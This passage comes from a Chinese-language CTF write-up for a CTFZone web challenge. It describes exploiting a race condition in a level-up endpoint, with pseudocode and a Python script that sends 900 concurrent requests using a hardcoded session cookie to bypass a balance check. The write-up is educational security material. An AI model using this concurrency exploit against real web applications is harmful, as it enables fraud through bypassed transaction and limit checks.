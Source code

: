    然后就可以再次得到1337分，并升级。

4. 到达30级，新的问题。

   ![](/assets/ctfzone/TIM截图20180803221945.png)

   无法继续升级。

5. 条件竞争。

   这里猜测应该是条件竞争，这里猜测应该是执行数据库插入操作，高并发的情况下，导致重复插入多次。

   ```
   function levelup() {
       balance > 10:
       是:
       	level > 30:
       	是:
       		exit
       	否:
       		level++                 |
       		balance -= 10           |    在并发的情况下，没有锁的情况下，多个线程会同时进入该代码段 
       		insert into table       | 
       否:
       	exit
   }	
   ```

   并发方案1：

   创建1个账号，获取足够的balance。

   ```
   import requests
   import threading
   
   threadArray = []
   
   class expClass(threading.Thread):
       burp0_url = "http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one:80/donate/lvlup"
       burp0_cookies = {"session": "eyJ1aWQiOjg2NX0.Dkaijg.3FkM2nEU3xLcIvc4DPkZxkvrjFQ"}
       burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-GB,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/info", "DNT": "1", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
       
       def __init__(self, numMain):
           super(expClass, self).__init__()
   
       def ham(self):
           requests.get(self.burp0_url, headers=self.burp0_headers, cookies=self.burp0_cookies)
   
           
       def run(self):
           self.ham()
           
   thr = 900
   
   for i in range(0, thr ):
           threadcan = expClass(i)
           threadArray.append(threadcan)
           
   for i in range(0, thr):
           threadArray[i].start()
           print "G thread girdi => " + str(i)
   for i in range(0, thr):
           threadArray[i].join()
   ```